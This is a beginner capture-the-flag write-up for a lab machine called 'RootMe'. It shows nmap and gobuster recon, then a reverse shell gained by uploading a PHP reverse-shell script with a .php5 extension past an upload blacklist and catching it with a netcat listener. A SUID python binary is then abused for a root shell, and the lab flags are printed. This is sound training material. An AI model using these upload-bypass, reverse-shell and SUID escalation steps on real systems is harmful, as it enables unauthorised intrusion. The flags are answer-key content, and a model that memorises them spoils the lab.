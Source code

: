 # RootMe
A ctf for beginners, can you root me?

## Task 2  Reconnaissance


### Scan the machine, how many ports are open?

2

```
# Nmap 7.80 scan initiated Thu Jul  7 20:21:10 2022 as: nmap -sS -sC -sV -O -oA initialnmap -vv 10.10.129.84
Nmap scan report for 10.10.129.84
Host is up, received echo-reply ttl 63 (0.063s latency).
Scanned at 2022-07-07 20:21:12 IST for 174s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/7%OT=22%CT=1%CU=33319%PV=Y%DS=2%DC=I%G=Y%TM=62C732D6
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3
OS:=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F
OS:4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW
OS:6%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T1(R=N)T2(R=N)T
OS:3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T4(R=N)T5(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T6(R=N)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=N)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)U1(R=N)IE(
OS:R=Y%DFI=N%T=40%CD=S)IE(R=N)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 20:24:06 2022 -- 1 IP address (1 host up) scanned in 175.95 seconds
```


### What version of Apache is running?

2.4.29

```
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### What service is running on port 22?

ssh

### What is the hidden directory?

/panel/

```
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.129.84/
[+] Threads      : 10
[+] Wordlist     : directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/07/07 20:24:00 Starting gobuster
=====================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

## Task 3  Getting a shell

### Find a form to upload and get a reverse shell, and find the flag.
user.txt

Downloaded 

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

and set reverse shell listener

sudo nc -lvnp 443

Fiddling around with the blacklist filter on /panel was able to get a revershe shell using the extension .php5

```
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:47:26 up 30 min,  0 users,  load average: 0.12, 0.04, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Getting user txt

```
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

THM{y0u_g0t_a_sh3ll}

## Task 4  Privilege escalation

### Search for files with SUID permission, which file is weird?

/usr/bin/python 

```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

...
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
...

```

Spawn root shell

```
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Getting root txt

```

find / -type f -name root.txt 2>/dev/null
/root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

### root.txt
THM{pr1v1l3g3_3sc4l4t10n}
